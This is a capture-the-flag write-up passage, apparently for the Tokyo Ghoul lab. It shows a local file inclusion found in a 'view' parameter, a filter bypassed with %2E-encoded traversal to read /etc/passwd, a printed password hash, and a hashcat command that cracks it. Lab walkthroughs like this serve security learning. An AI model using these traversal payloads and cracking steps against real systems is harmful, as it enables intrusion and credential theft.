 If found a sub directory called [claim](http://target.thm/d1r3c70ry_center/claim/). 
![Claim](/assets/images/2021/06/TokyoGhoul/Claim.png "Claim").

The page is pretty simple. The `Main Page` link took me to [http://target.thm/d1r3c70ry_center/claim/index.php](http://target.thm/d1r3c70ry_center/claim/index.php). While both `Yes` and `No` took me to [http://target.thm/d1r3c70ry_center/claim/index.php?view=flower.gif](http://target.thm/d1r3c70ry_center/claim/index.php?view=flower.gif).

This looks like it including the file passed to the `view` query parameter. It's probably vulnerable to LFI.

I started playing around with the parameter. Passing `/etc/passwd` did not work. If I tried anything with `..` or `user` in it, it will tell me "no no no silly don't do that". 

I also tried loading the [index.php file as base64](http://target.thm/d1r3c70ry_center/claim/index.php?view=php://filter/convert.base64-encode/resource=index.php) and that also failed. 

Then I tried to escape the dots with %2E, and after some struggling it worked. I was able to load [`/etc/passwd`](http://target.thm/d1r3c70ry_center/claim/index.php?view=%2E%2E/%2E%2E/%2E%2E/etc/passwd). It contained a user with it's hashed password. 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash
```

I copied the hash and saved it into a file. Then I used hashcat to crack it.

```bash
$ hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:PASSWORD
                                                 
Session..........: hashcat
```